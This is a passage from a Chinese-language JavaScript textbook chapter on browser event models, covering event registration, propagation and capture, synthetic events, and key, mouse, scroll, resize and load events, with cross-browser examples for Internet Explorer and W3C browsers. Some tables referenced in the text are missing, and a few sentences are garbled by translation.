在本章中，我将介绍适用于 Internet Explorer 以及基于标准的浏览器的基础事件模型。我将介绍*非侵入式 JavaScript*的概念以及它如何应用于事件绑定。你将学习如何以跨浏览器的方式绑定事件，以及如何处理复杂的 `mousemove` 和 `domready` 等事件。稍后你将查看一种*自定义事件*模型，并以查看现代浏览器之间的事件兼容性作为结束。

# 基础事件模型

尽管我提到了许多差异，但各种事件模型之间也有许多共同点。我将这些通用的共享特征称为 `basic event model`（基础事件模型）。这些特征之一是 (X)HTML 中的大多数元素都有一组通用的 `event bindings`（事件绑定）。这些绑定由事件名称（例如 `mouseover`）加上单词 `on` 组合而成。在上一个例子中，你使用 `onclick=alert('Thanks for visiting!');` 连接超链接的 `click` 事件，浏览器会将 `event handler`（事件处理器，即代码 `alert('Thanks for visiting!')`）与事件（即单词 `click`）关联起来。大多数事件都是这样描述性地命名的，该词清楚地指示了什么会触发它——例如 `mouseout`、`submit`、`dblclick` 等。另一些则不那么明显：`domready`、`blur`、`reset` 等。关于哪些事件会在哪些元素上触发，有一些规则。例如，页面上的不可见元素没有 `blur` 事件，而 `change` 事件仅限于表单的一小部分元素。下表提供了常见事件绑定的短列表，以及它们在 HTML 和 XHTML 中通常支持的元素：


在本章后面的部分，我将更详细地介绍私有事件、DOM 事件以及它们的浏览器支持情况。

# 基础事件注册

随着 Netscape 3 和 Internet Explorer 4 的出现，浏览器开始放弃传统的内联事件绑定模型。这样做对事件处理器进行程序化控制（能够设置它们并在稍后更改它们），并增加 JavaScript 与 HTML 之间的分离。这当然是一件好事，因为它意味着你拥有更多的控制权，而且调试集中在一个地方的代码更容易。在这种情况发生之前，绑定事件的唯一方法是使用 HTML 的事件属性，并指定一个在事件发生时评估的字符串。例如：

## 内联事件注册

```html
<script type="text/javascript">
function checkForm(formObj) {
    // 取消表单提交
    return false;
}
</script>
<form onsubmit="return checkForm(this)">
    <input type="submit" value="Click me to submit!">
</form>
```

这种语法在今天仍然支持。在前面的示例中，当用户提交表单时，`onsubmit` 属性中指定的代码会执行并将将其作为参数（引用表单对象）传递。这非常基础，但在我拥有 JavaScript 绑定之前，这是我唯一能做的事。

然后引入了所谓的 `traditional event registration`（传统事件注册），也被称为 `programmatic event registration`（程序化事件注册）。在这里，你直接使用 JavaScript 将事件处理器分配给 DOM 节点的事件属性。虽然我还没有详细讨论过 DOM，但你只需要知道文档是由表示页面上所有结构和内容的节点组成的。DOM 节点也可以直接向它们绑定事件：

```javascript
function myClickHandler(e) {}
myDOMNode.onclick = myClickHandler;
```

当通过标识符 `myDOMNode` 引用的 DOM 元素被鼠标或键盘点击时，会触发点击事件，同时 `myClickHandler()` 也会随之执行。注意：使用这种方法时，不要在函数标识符后包含括号。当调用 `myClickHandler()` 时，在非 Explorer 浏览器中，事件对象 `e`（在此情况下，尽管它可以被称为任何名字）将作为第一个参数传递。如果你想向函数传递更多数据，可以使用匿名函数来封装你对 `myClickHandler()` 的调用：

```javascript
function myClickHandler(e, name) { alert("Hi " + name); }
myDOMNode.onclick = function(e) { myClickHandler(e, "Jimmy"); };
```

要完全移除事件处理器，可以给它分配 `null`：

```javascript
myDOMNode.onclick = null;
```

由于 `onclick` 实际上只是一个函数引用，你也可以像调用函数一样程序化地调用它：

```javascript
if (myDOMNode.onclick)
    myDOMNode.onclick();
```

这种方法的主要缺点是你只能为每个事件处理器绑定 `one function`（一个函数）。实际上没有理由这应该是一个限制，这就是为什么现在浏览器中有一种更高级的事件模型，被称为 `unobtrusive model`（非侵入式模型）。我稍后会讨论。

# this 关键字

你已经学习了一些关于 `this` 关键字以及它如何应用于对象上下文的知识。在使用传统事件模型处理事件时，它也具有重要意义。请记住，这仅适用于这种特定的附加事件的方法。具体来说，当你在事件处理器内部使用 `this` 时，你指的是 `owner object`（所有者对象）。例如，如果你向一个 DIV 附加事件并在事件处理器内部使用 `this`，它指的就是该 DIV：

```html
<html>
<head></head>
<body>
<!-- 内联事件注册 -->
<div>Hi, I am div #1</div>
<div>Hi.. I'm also a div.</div>
<div>Don't forget me!</div>
<script>
// 使用 getElementsByTagName("div") 获取页面上所有 DIV 的数组。
var divList = document.getElementsByTagName("div");
// 遍历每一个元素
for (var i = 0; i < divList.length; i++) {
    divList[i].onmouseover = function() { this.style.backgroundColor = "yellow"; };
    divList[i].onmouseout = function() { this.style.backgroundColor = "transparent"; };
}
</script>
</body>
</html>
```

在这个示例中，我使用 `getElementsByTagName()` 获取了页面上的 DIV 数组（共有三个）。在第 13 章中，我解释了这在 DOM 中是如何工作的。对于数组中的每一项，你附加了 mouseover 和 mouseout 事件，当用户将鼠标移过元素时会触发这些事件。在每个函数中，你使用 `this` 关键字来引用对象本身以设置背景颜色。通过这种方式，你可以在 DIV 上创建美的悬停效果。

# 阻止默认行为

当你向某些行为附加事件时，例如超链接的 `click` 或表单的 `submit` 事件，除了你的代码外，还需要考虑 `default`（默认）行为。例如，当你为超链接的 `click` 添加某些代码时，你的代码会首先执行，但在之后，超链接本身将执行点击并跳转链接。同样，在表单情况下，在你代码执行后，表单将继续提交到服务器：

```html
<a href="http://www.google.com" onclick="sayGoodbye()">Click to leave</a>
```

如果你不想让这种情况发生呢？无论你是如何附加事件的（无论是使用传统的还是非侵入式的事件注册），如果你的事件处理器在默认行为计划发生之前执行，就有可能覆盖这种默认行为。在你的超链接情况下，可以通过在事件处理器代码的末尾添加 `return false` 来阻止默认操作：

```html
<a href="http://www.google.com" onclick="sayGoodbye(); return false">Click to leave</a>
```

如果你想将返回值整合到 `sayGoodbye()` 中，你可以这样对其进行重构：

```html
<script type="text/javascript">
function sayGoodbye() {
    return false;
}
</script>
<a href="http://www.google.com" onclick="return sayGoodbye()">Click to leave</a>
```

这可以防止链接被跟随。对于任何内联附加的事件也是如此。如果你使用程序化事件注册，则不需要在绑定中包含 `return`：

```javascript
function sayGoodbye() {
    return false;
}
myLinkObj.onclick = sayGoodbye;
```

但需要注意的是，并不是所有的默认操作都可以被停止。例如，出于显而易见的原因，你无法阻止某人在关闭窗口或输入新地址时离开页面。当然，从原则上说，你不真的应该允许这种事情发生，但这无关紧要。

从你的事件处理程序中返回 `false` 是防止默认行为最通用的方法。取决于你正在使用的事件模型，还有其他方法。例如，在 Firefox 和 Safari 等基于标准的浏览器中，事件对象包含一个名为 `preventDefault()` 的方法，它可以实现相同的目标。在 Internet Explorer 中，事件对象有一个名为 `returnValue` 的属性，可以将其设置为 `false` 来实现相同的操作。但如果你想同时处理这两种情况，从你的事件处理程序中返回 `false` 通常会更容易。

# 非侵入式 JavaScript (Unobtrusive JavaScript)

这引出了另一个完全不同的主题，即非被称为“非侵入式 JavaScript”。在 Web 开发早期，人们对浏览器脚本普遍存在大量的批评。这些批评通常属于以下三大类关注点：

* JavaScript 将标记语言（HTML 和 CSS）与代码混合在一起，使得调试和管理变得困难。
* 对于有无障碍需求的用户来说，JavaScript 造成了可用性的障碍。
* 对于没有启用 JavaScript 的用户（无论出于什么原因），需要它的页面将会崩溃。

仅仅由于这些原因，许多 Web 应用程序在编写时完全没有使用 JavaScript。虽然自那以后 Web 并没有发生多大的变化，但你的开发方法已经发生了变化。一场运动正朝着一种纠缠更少、内联更少、对用户假设更少的编程风格发展。非侵入式编程寻求实现以下三个目标：

* 将网页的结构和内容（“表现层”）与功能分离开，以保持代码组织的整洁，并减少为了功能运行对 JavaScript 的依赖。
* 渐进增强页面，确保使用户没有启用 JavaScript、或使用过时的浏览器或正在使用屏幕阅读器，页面也不会崩溃。
* 采用某些解决浏览器不一致性问题的最佳实践。

除了使用抽象层、避免全局变量、一致的命名规范和熟悉的设计模式等许多通用惯例外，非侵入式开发的一个关键策略是使用高级的事件注册技术。这样做是为了给 HTML 元素附加丰富的功能，同时在由于某些原因无法执行此 JavaScript 时，仍保留某种默认行为。

考虑以下示例。这里有一个在“click”事件上具有内联事件绑定的超链接。当用户点击链接时，页面将跳转到一个空哈希（“#”），这实际上什么都没做，然后触发 `showDHTMLDialogue()`，可能是为了向用户展示某种屏幕对话框，而无需刷新页面：

```html
<a href="#" onclick="showDHTMLDialogue('/ajax/askquestion.php'); return false;">告诉我们你的名字</a>
```

假设用户浏览器足够新、没有使用屏幕阅读器并且可以运行 JavaScript，这可能看起来很棒。如果不是，你可能失去了一个用户。当然，你无法取悦所有人，但只要稍微努力，就可以以非侵入式的方式设计这种交互，让无人损失。这个超链接破坏了非侵入式编程的三大中的两个：关注点分离和渐进增强。接下来，我将向你展示如何使用非侵入式事件注册重新设计这种交互。

# 非侵入式事件注册

微软和 W3C 都意识到传统的事件模型对于 Web 来说是不够的，他们必须进行现代化，以允许每个事件有多个处理程序，并对事件捕获阶段进行更细粒度的控制（这与冒泡有关，我稍后会讨论）。遗憾的是，微软自走了一条路，而 W3C 走了另一条路。总的来说，它们实现了相同的目标。

正式事件模型在 2000 年的 W3C DOM Level 2 规范中引入，适用于 Internet Explorer 之外的所有浏览器。该模型的基石有两个方法：`addEventListener()` 和 `removeEventListener()`。它们的语法如下：

```javascript
targetElement.addEventListener(type, listener, useCapture);
targetElement.removeEventListener(type, listener, useCapture);
```

这里感兴趣的第一个项目是 `targetElement`。这是你希望附加事件的 DOM 节点、窗口或文档对象或 `XMLHttpRequest` 对象。`type` 是表示我们要附加的事件类型的字符串（例如，“click”或 `mouseover`）。`listener` 是处理事件的函数引用，`useCapture` 指你希望处理的事件传播方向。我稍后会讨论事件冒泡。只需说，当 `useCapture` 为 `true` 时，事件监听器将在 DOM 树中其下方的任何监听器之前接收到事件。

通过这个快速示例，你可以看到将传统的事件绑定交换为 `addEventListener()` 是多么简单：

```html
<html>
<head></head>
<body>
内联事件注册
<div>Hi, I am div #1</div>
<div>Hi.. I'm also a div.</div>
<div>Don't forget me!</div>
<script>
var divList = document.getElementsByTagName("div");
for (var i = 0; i < divList.length; i++) {
    divList[i].addEventListener("click", makeYellow, false);
}
function makeYellow(e) {
    this.style.backgroundColor = "yellow";
}
</script>
</body>
</html>
```

在此处，你遍历了页面上所有的 DIV 标签，并为每个标签添加了“click”事件的事件监听器，使 `makeYellow()` 函数成为处理程序。当用户点击 DIV 时，它会变成黄色。注意，尽管你仍然在事件处理程序中继续使用 `this` 关键字，但这种方法只在 W3C 事件模型中有效。在 Internet Explorer 中，你无法使用 `this` 来引用调用对象。

要从 DOM 节点移除这些事件，你只需要遍历它们并使用 `removeEventListener()` 即可：

```javascript
for (var i = 0; i < divList.length; i++) {
    divList[i].removeEventListener("click", makeYellow, false);
}
```

要从节点中移除特定的监听器，你必须使用附加它时使用的完全相同的参数——相同的函数引用和 `useCapture` 样式。如果两个事件附加到节点上，一个 `useCapture == false` 另一个 `useCapture == true`，但在其他方面相同，则必须分别移除。如果你犯了错误并尝试移除一个不存在的事件监听器，`removeEventListener()` 将静默失败而不会抛出异常。

在 Internet Explorer 世界中，你有两个本质上相同的方法。这些是 `attachEvent()` 和 `detachEvent()`：

```javascript
targetElement.attachEvent(type, listener);
targetElement.detachEvent(type, listener);
```

在 Internet Explorer 模式下，目标对象 `targetElement` 也是你附加元素的 DOM 节点，`type` 是事件类型（尽管它要求所有事件名称之前加上前缀“on”），而 `listener` 是用作事件监听器的函数引用。如果你将示例重写以支持 Internet Explorer，它可能像这样：

```html
<html>
<head></head>
<body>
内联事件注册
<div>Hi, I am div #1</div>
<div>Hi.. I'm also a div.</div>
<div>Don't forget me!</div>
<script>
var divList = document.getElementsByTagName("div");
for (var i = 0; i < divList.length; i++) {
    divList[i].attachEvent("onclick", makeYellow);
}
function makeYellow(e) {
    e.srcElement.style.backgroundColor = "yellow";
}
</script>
</body>
</html>
```

这里看起来几乎大不相同，除了 `attachEvent()` 缺少 `useCapture` 参数外，还有你的 `makeYellow()` 函数也发生了变化。你不再使用 `this` 关键字，而是使用 `e.srcElement`。这是因为 IE 中的事件监听器是被引用的而不是复制的，因此为了访问目标元素而引用 `this` 是没有意义的。相反，你必须使用事件对象的 `srcElement` 属性，该属性是作为参数传递给你的处理程序的。你很快就会学习到事件对象。

# 检查事件监听器

在传统的事件模型中，你可以检查事件处理程序以查看其上是否绑定了任何内容。例如，你只需要通过以下代码找到并移除 `onclick` 事件上的处理程序：

```javascript
if (myElement.onclick) {
    myElement.onclick = null;
}
```

遗憾的是，目前没有办法通过这种非侵入式（unobtrusive）的方法获取处理程序列表。在 DOM Level 3 事件模型（尚未被采用）中，有一个名为 `eventListenerList()` 的方法，它可以返回事件处理程序的数组，但尚未被任何浏览器支持。

# 事件对象

当事件触发时，JavaScript 会自动向事件处理程序传递一个参数，其中包含事件对象的实例。该对象提供了大量关于发生过什么的关键信息，并让你对接下来将发生的情况进行某些控制。事件对象的具体属性取决于你谈论的是 DOM 2 事件模型还是 IE 事件模型。

在 Internet Explorer 中，你有以下核心属性可用：


DOM 2 事件模型在它们的事件对象上定义了以下核心属性。这适用于非 Internet Explorer 浏览器：


## 获取事件类型

获取事件类型（例如 `click`、`mouseover` 等）与检查 `event.type` 属性一样简单。它将返回一个字符串，并在两种事件模型中都支持：

```javascript
function handleEvent(e) {
    alert(e.type);
}
```

## 获取目标

目标是触发事件的元素。在两种模型中获取目标略有不同。在 Internet Explorer 中，你检查 `srcElement` 属性，但在 DOM 2 中，你检查 `target`：

```javascript
function handleEvent(e) {
    var target = e.target || e.srcElement;
    // 下一行是为了修复关于文本节点的 Safari Bug
    if (target.nodeType == 3)
        target = target.parentNode;
}
```

在上一个示例的最后部分，你检查了 `nodeType` 属性以判断它是否为文本节点。如果是，你将 `target` 赋值为该节点的父节点（或所有者）。这是为了补偿 Safari 中关于文本节点的一种奇行为，在该行为中，文本节点本身而不是容器变成了目标。

## 获取鼠标按钮

关于鼠标，你可能想知道两类通用信息。一个是哪个按钮被按下了。这可以通过 `button` 属性来确定。然而，数字代码取决于你是否在 Internet Explorer 中。IE 的按钮代码如下：


但在其他浏览器中，你拥有这些代码：


获取事件的鼠标坐标要困难得多，并且涉及重大的跨浏览器困难。

# 跨浏览器事件工具

现在你已经知道如何在几乎所有浏览器中非侵入式地绑定事件，请看一个通过单一接口完成所有操作的简单事件工具。该接口通过*特性检测*来检查哪种事件模型可用并使用那一个：

```javascript
function addEvent(target, eventType, eventHandler) {
    if (target.addEventListener)
        target.addEventListener(eventType, eventHandler, false);
    else if (target.attachEvent)
        target.attachEvent('on' + eventType, eventHandler);
}

function removeEvent(target, eventType, eventHandler) {
    if (target.removeEventListener)
        target.removeEventListener(eventType, eventHandler, false);
    else if (target.detachEvent)
        target.detachEvent('on' + eventType, eventHandler);
}
```

注意，我在 Internet Explorer 绑定中在 `eventType` 参数后面添加了 "on"。这是因为在 DOM 事件绑定中，你可以通过名称引用事件（例如 `click`、`mouseover` 等），但在 Internet Explorer 中，你必须在事件名称前加上 "on"（例如 `onclick`、`onmouseover` 等）。

# 事件传播

事件还有另一个我尚未解释过的有趣方面。它是事件在触发时会*传播*（propagate）的概念。当用户点击文档中的一个 DIV 时，说用户点击了文档还是点击了 DIV 更准确呢？事实上，两者都是正确的。通过点击*属于*文档的 DIV，用户实际上同时点击了两者。以某种方式，这个想法必须与你的事件模型相协调。

当微软和网景引入它们各自的*现代*事件模型时，它们都引入了*事件传播*的概念。如果一个事件要在元素上触发，同时要在它所属的每个父元素上触发——一直向上到树的文档（可能还有窗口）——这必须以一种可预测的方式发生，并且你应该有某种方式来控制这种事件流。

遗憾的是，微软和网景以某种冲突的方式解决了这个问题。微软决定，当事件在 DIV 上触发时，它将在该节点的父节点上触发，在该*父*节点的父节点上触发，依此类推——一直向上到树直到到达顶部对象，即窗口（实际上是文档，但在 IE 6.0 中他们将其扩展到了窗口）。这种自底向上的事件传播被称为事件*冒泡*（bubbling），因为它就像从海洋底部释放的泡泡，逐渐向水面移动（参见图 12-1）。

图 12-1


如果你的文档如下所示，并且你每个节点都绑定了内联事件监听器，你将看到它们从*最具体*的元素到*最不具体*的元素触发：

```html
<html>
<head></head>
<body onclick="alert('body')">
    <div onclick="alert('div 1')">
        <div onclick="alert('div 2')">
            <div onclick="alert('div 3')">
                I am inside a div.
            </div>
        </div>
    </div>
</body>
</html>
```

当你点击最内层 `DIV` 内部文本时，告的顺序将是 3, 2, 1, body。在 Internet Explorer 或 Firefox 等 W3C 标准浏览器中确实如此，但这些其他浏览器在底层的处理实际上略有不同。虽然使用传统的事件模型进行这种内联事件绑定被视为`仅限冒泡`的事件捕获，但当你使用非侵入模型（unobtrusive model）时，事件会在`两个`方向上都移动。这些浏览器并不是简单地从最特定到最不特定进行事件冒泡，而是从最不特定的事件开始，传播到目标元素（称为`捕获阶段`），*然后*调头并将事件再次冒泡回顶层（参见图 12-2）。

这样做是为了根据你定义事件绑定的方式，在任一个方向上拦截事件。

图 12-2


由 Mozilla、Opera 7+ 和 Safari (WebKit) 采用的 W3C 模型允许根据你是在`capture`阶段还是`bubble`阶段绑定事件，对事件处理程序的`排序`进行受控。请参见图 12-3 以查看事件往返过程中的捕获阶段和冒泡阶段的说明。

图 12-3


回顾 `addEventListener()` 和 `removeEventListener()` 的语法，你可以看到每个函数的第三个参数定义了你是否将在`capture`阶段执行此操作：

```javascript
targetElement.addEventListener(type, listener, useCapture);
targetElement.removeEventListener(type, listener, useCapture);
```

如果 `useCapture == false`，则你是在`bubble`阶段绑定事件；否则，你是在`capture`阶段绑定。为了在实践中说明这一点，请看另一个示例：

```html
<html>
<head></head>
<body>
    <div id="div1">
        <div id="div2">
            I am inside a div.
        </div>
    </div>
<script type="text/javascript">
var div1 = document.getElementById("div1");
var div2 = document.getElementById("div2");
div1.addEventListener("click", eventHandler1, true);
div1.addEventListener("click", eventHandler3, false);
div2.addEventListener("click", eventHandler4, true);
div2.addEventListener("click", eventHandler2, false);
function eventHandler1() {}
function eventHandler2() {}
function eventHandler3() {}
function eventHandler4() {}
</script>
</body>
</html>
```

在这里，你向两个 DIV 绑定了 `click` 事件，一个在另一个内部（`div2` 在 `div1` ）。对于 `div1` 事件，你是在`capture`阶段（即初始阶段）绑定的。对于另一个，你是在`bubble`阶段（即次要阶段）绑定的。当用户点击 `div2` 时，会发生以下事件序列：

1. 捕获阶段开始。事件从 DOM 顶部（document）向下移动到 `div2`，途中检查事件处理器。
2. 事件触发 `div1` 上的处理器 `eventHandler1()`。
3. 事件继续向 `div2` 移动，找到为捕获阶段设置的事件处理器 `eventHandler4()` 并触发它，然后停止移动。
4. 事件调头并准备返回 DOM 移动。首先，它找到在 `div2` 上为`冒泡阶段`设置的事件处理器。这触发了 `eventHandler2()`。
5. 事件再次击 `div1` 并发现 `eventHandler3()`，并触发它。
6. 事件再次一直向上移动到 DOM，寻找处理器但未找到任何。

# IE 鼠标事件的捕获模式

虽然 Internet Explorer 中没有对应的方法可以在`capture phase` 捕获事件，但在处理鼠标事件时你有一个选项。微软意识到，为了让开发者编写利用鼠标的 DHTML 组件，必须有一种可靠的方法来捕获鼠标事件（比冒泡更可靠）。他们的解决方案是 `setCapture()` 和 `releaseCapture()`。

你可以强制让 `mousemove`、`mouseover` 等鼠标事件在特定元素上触发，无论它们如何传播。遗憾的是，这不是 W3C 的完美替代品。一个关键区别是 `setCapture()` 的行为并不正常。

```html
<html>
<head></head>
<body>
    <div id="div1">
        <div id="div2">
            World
        </div>
    </div>
<script type="text/javascript">
document.getElementById("div1").addEventListener("click", function(e) {
    var dEl = document.getElementById("div2");
    dEl.innerHTML += "<br>div1";
    e.cancelBubble = true;
}, true);
document.getElementById("div1").attachEvent("onclick", function() {
    var dEl = document.getElementById("div2");
    dEl.innerHTML += "<br>Body click";
});
</script>
</body>
</html>
```

# 默认处理器

这种冒泡行为的优势在于，你可以在文档上为所有类型的事件定义*默认*处理器。例如，你不需要在页面上的所有特殊元素上附加 `click` 处理器，只需要在文档上附加一个单一事件，并等待它从目标元素冒泡上来：

```javascript
if (document.addEventListener) {
    document.addEventListener("click", eventHandler, false);
} else {
    document.attachEvent("onclick", eventHandler);
}

function eventHandler(e) {
    var target = e.srcElement || e.target;
    alert(target.id);
}
```

使用事件对象的 `srcElement` 或 `target` 属性，你可以看到文档上底是哪个元素触发了事件，这让你的工作变得更容易。除非事件被阻止一直冒泡到表面（这是可能的），否则这种方法运行良好。

# 防止事件传播

如果你想停止事件传播，你可以这样做，但仅在`bubble`阶段可以。这正好，因为 Internet Explorer 中没有捕获阶段。如果你不希望特定组件中的事件影响文档的其他部分，或者你想通过消除不必要的事件处理来提高页面性能，你可能需要这样做。

在任何情况下，你都可以通过 `cancelBubble = true` 在 IE 中防止事件冒泡：`e.cancelBubble = true`

在其他浏览器中，你使用 `stopPropagation()`：`e.stopPropagation()`

为了将这两者结合成一个方便的单元，你可能会写这样的代码：

```javascript
function eventHandler(e) {
    if (e.stopPropagation) {
        e.stopPropagation();
    } else {
        e.cancelBubble = true;
    }
}
```

正如我之前解释过的，然而，无法阻止在事件循环的*捕获阶段*上捕获的事件处理器触发。

# 触发原生事件

在任何一种事件模型中，实际上都可以通过程序化任意地触发原生浏览器事件。你可能会奇怪为什么需要这样做，但这种情况确实会发生。不过，IE 和其他浏览器的处理方法略有不同。在 Internet Explorer 中，你使用 `fireEvent()`，但如果你想控制任何事件属性，必须先使用 `createEventObject()` 创建一个事件对象。`createEventObject()` 的语法为：`oEventObject = document.createEventObject([oExistingEvent])`。唯一的可选参数是一个现有的事件对象，你想要以此为基础创建一个新对象。通常情况下你并不会使用它。一旦创建了事件对象，就可以自定义它的某些属性并使用 `fireEvent()` 直接在元素上调用它：`elementObject.fireEvent(sEvent[, oEventObject])`。这里唯一要求的参数是 `sEvent`，它是一个表示事件类型的字符串。一些示例可能是 "onclick"、"onmouseover" 等。让我们结合使用这两者来模拟 DIV 标签上的“点击（click）”事件：

```html
<html>
<head>
</head>
<body>
<div id="div1">Hello World</div>
<script type="text/javascript">
var div1 = document.getElementById("div1");
div1.attachEvent("onclick", function() {alert('clicked')});
var eventObj = document.createEventObject();
// 让我们设置事件对象的任意属性。不过，我们实际上并不需要它。
eventObj.cancelBubble = true;
div1.fireEvent("onclick", eventObj);
</script>
</body>
</html>
```

在这个示例中，我首先为页面顶部的 DIV 创建了一个绑定到 "onclick" 事件。然后，我使用 `createEventObject()` 创建了一个事件对象，并使用 `fireEvent()` 触发该事件。在浏览器中运行时，这会立即触发事件监听器，并显示一个包含“clicked”字样的警报框。

在 Firefox、Opera 和 Safari 等 W3C 标准浏览器中，你必须使用稍微更复杂的 `dispatchEvent()`。和 Internet Explorer 一样，你必须先创建一个事件对象，这次使用 `document.createEvent()`。它的语法为：`var event = document.createEvent(type);`。然后必须对事件本身进行初始化。对于每种类型都有不同的初始化器。下表列出了可用类型及其对应的初始化器列表：


此列表中两个重要的是 `MouseEvents` 和 `HTMLEvents`，它们提供了足够的覆盖来复制页面上的大多数常见事件。要初始化事件，请使用事件初始化器。`initMouseEvent` 初始化器采用以下语法：`event.initMouseEvent(type, canBubble, cancelable, view, detail, screenX, screenY, clientX, clientY, ctrlKey, altKey, shiftKey, metaKey, button, relatedTarget);`。每个属性代表事件对象的一个属性，在本章前面的部分已经介绍过。更通用的 `initEvent` 初始化器的语法为：`event.initEvent(type, bubbles, cancelable)`。

`initEvent()` 的参数非常简单。第一个参数 `type` 是事件类型（例如 "click"）。`bubbles` 代表事件是否会冒泡到元素之外，`cancelable` 表示事件是否可以被取消。最后，一旦初始化了事件，你就可以使用 `dispatchEvent()`（每个 DOM 节点的方法）在目标上执行它。`dispatchEvent()` 函数只接收一个参数，即事件对象：`bool = elementObject.dispatchEvent(eventObj)`。

让我们在之前的示例中使用同样的方法——为了重新创建一个鼠标点击，你可能会像这样做：

```javascript
var div1 = document.getElementById("div1");
div1.addEventListener("click", function() {alert('clicked')}, false);
var evt = document.createEvent("MouseEvents");
evt.initMouseEvent("click", true, true, window, 0, 0, 0, 0, 0, false, false, false, false, 0, null);
div1.dispatchEvent(evt);
```

这的步骤与我们的 Internet Explorer 示例完全相同。当运行示例时，当在 `div1` 上调用 `dispatchEvent()`，第 2 行定义的事件监听器就会执行。用户将立即看到一个包含“clicked”字的警报框。

# 常见事件绑定

现在是时候查看在浏览器内部连接原生事件的一些具体且实用的示例了。遗憾的是，一些最有用的浏览器事件受到跨浏览器问题的困扰，你必须学习这些问题才能利用它们。正如你所看到的，其中一些正受到了这种缺陷的影响。

# 检测按键

按键事件是不同浏览器之间有所不同的内容。在所有浏览器中都有三个通用的按键事件：`keydown`、`keyup` 和 `keypress`。`keydown` 和 `keyup` 事件仅在实际按键按下或释放时触发，而 `keypress` 事件在用户同时完成这两个操作时触发。当事件触发时，你可以通过硬件键 `code` 访问被按的键，在 `keypress` 事件中，你可以访问输入的屏幕可打印字符。在 Internet Explorer 中，只有当用户输入屏幕可打印字符时才会触发 `keypress` 事件，而不是用户按下 ESC、退格或回车键时。

按键事件的字符码可以通过 `keyCode` 属性获取。在下面的示例中，当用户在文本输入中输入时，我会在警报框中显示键码：

```html
<input type="text" id="myTB">
<script type="text/javascript">
var tb = document.getElementById('myTB');
if (document.attachEvent)
    tb.attachEvent("onkeydown", function(e) {
        alert(e.keyCode);
    });
else
    tb.addEventListener("keydown", function(e) {
        alert(e.keyCode);
    }, false);
</script>
</body>
```

下表是一些非 ASCII 字符的常见键码：


如果你想找到是否按了 shift、alt 或 ctrl 键，有一种更简单的方法。W3C 和微软对此也一致。只需查询事件对象的布尔属性 `eventObj.shiftKey`、`eventObj.altKey` 或 `eventObj.ctrlKey` 即可。

```javascript
var isShiftPressed = e.shiftKey;
var isAltPressed = e.altKey;
var isCtrlPressed = e.ctrlKey;
```

这特别有用，因为它可以帮助为应用程序绑定热键，例如用于保存的 CTRL-S。只需记住，当你支持浏览器内部也可能具有含义的热键时，要防止这些事件的默认行为。

# 鼠标位置

当涉及到 Explorer *以及* 所有其他兼容性时，获取鼠标位置是另一项棘手的任务。当我们在处理鼠标事件并想要获取鼠标的*坐标*时，至少有少于 12 个不同的属性可以查看：


如果你真正想要的是相对于页面顶部的鼠标坐标（也许这些是你能够跨浏览器获取的*唯一*有用的坐标），你必须查看两组不同的属性：在 Firefox 等浏览器上的 `pageX` 和 `pageY`，以及在 IE 中的 `clientX` 和 `clientY`。虽然 `pageX` 和 `pageY` 提供的恰好是你想要的内容，但另外两个属性只能告诉你鼠标相对于视口（viewport）的位置。什么是视口呢？它是窗口当前的滚动位置，如图图 12-4 所示：

图 12-4


要获取*真实的*鼠标坐标，你必须将滚动位置加上 `clientX` 和 `clientY`。当文档处于*怪异模式（quirks mode）*时，通过 `document.body.scrollLeft` 和 `document.body.scrollTop` 访问。在标准模式下，则通过 `document.documentElement.scrollLeft` 和 `document.documentElement.scrollTop` 属性找到。

> 怪异模式是指某些浏览器使用的一种技术，目的是为了与旧版浏览器设计的网页保持向后兼容性，而不是严格遵守 W3C 和 IETF 标准。浏览器是否处于怪异模式取决于文档类型（doctype），但在 JavaScript 中也可以检测到。在这种情况下，不需要知道浏览器处于哪种模式，因为两个滚动属性中只有一个会有实际值，另一个将等于零。

让我们在一个示例中将这些内容整合起来。接下来的演示将跟踪在页面上移动的鼠标，并将结果放入文本框：

```html
<html>
<head></head>
<body>
<input type="text" id="myTB">
<script type="text/javascript">
function handleMouseMove(e) {
    var posx = 0;
    var posy = 0;
    if (e.pageX) {
        // 这是一个 W3C 标准浏览器
        posx = e.pageX;
        posy = e.pageY;
    } else {
        // 这可能是 Internet Explorer
        posx = e.clientX + document.body.scrollLeft + document.documentElement.scrollLeft;
        posy = e.clientY + document.body.scrollTop + document.documentElement.scrollTop;
    }
    // 将结果放入页面顶部的文本框
    document.getElementById("myTB").value = posx + "," + posy;
}
// 绑定事件
if (document.attachEvent)
    document.attachEvent("onmousemove", handleMouseMove);
else
    document.addEventListener("mousemove", handleMouseMove, false);
</script>
</body>
</html>
```

# scroll 事件

使用 `scroll` 事件，你可以跟踪窗口或页面上的元素滚动到了什么位置。页面上任何带有滚动条的元素都可以拥有你可以跟踪的滚动事件。当你想要获取页面本身的滚动事件时，请绑定到 `window` 对象：

```html
<html>
<head></head>
<body>
<input type="text" id="myTB">
<script type="text/javascript">
function handleScroll(e) {
    // 在怪异模式下，使用 body.scrollX，否则使用 documentElement.scrollX
    var scrollLeft = document.body.scrollLeft + document.documentElement.scrollLeft;
    var scrollTop = document.body.scrollTop + document.documentElement.scrollTop;
    // 将结果放入页面顶部的文本框
    document.getElementById("myTB").value = scrollLeft + "," + scrollTop;
}
if (document.attachEvent)
    document.attachEvent("onscroll", handleScroll);
else
    document.addEventListener("scroll", handleScroll, false);
</script>
</body>
</html>
```

在这个示例中，我为 window 添加了事件监听器，然后它打印结果。根据文档类型，你必须同时检查 `body`（针对怪异模式）和 `documentElement`（针对标准模式）。

# resize 事件

有时，知道窗口何时调整了大小是有用的，特别是当你正在定位用户界面元素时。`resize` 事件适用于 `window` 对象，其使用方式与 `scroll` 事件非常相似：

```javascript
if (document.attachEvent)
    document.attachEvent("onresize", handleResize);
else
    window.addEventListener("resize", handleResize, false);
```

关于此事件的一个浏览器兼容性说明是：在 Firefox 和其他基于 Mozilla 的浏览器中，`resize` 事件仅在用户松开鼠标后触发一次。在其他浏览器中，它会在用户调整大小时持续触发。

# load 和 unload 事件

在开发者发现 `domready` 事件（稍后将讨论）之前，每个人都使用 `load` 事件作为页面上所有事件绑定和 JavaScript 设置的入口。如果你在页面上有一个 DHTML 组件（例如下拉菜单或数据网格），它通常会在 `load` 事件中初始化。所有浏览器都原生支持 `load` 事件，即使在今天，将其用于此目的也很常见。

`load` 事件在页面上的所有内容下载后触发，包括文档的 HTML 内容、链接的任何外部 JavaScript 或 CSS 文件以及页面上出现的任何图像（当它们以 `IMG` 标签而非 CSS 出现时）。你可以确定，当 `load` 事件触发时，页面已为用户完全构建完成。

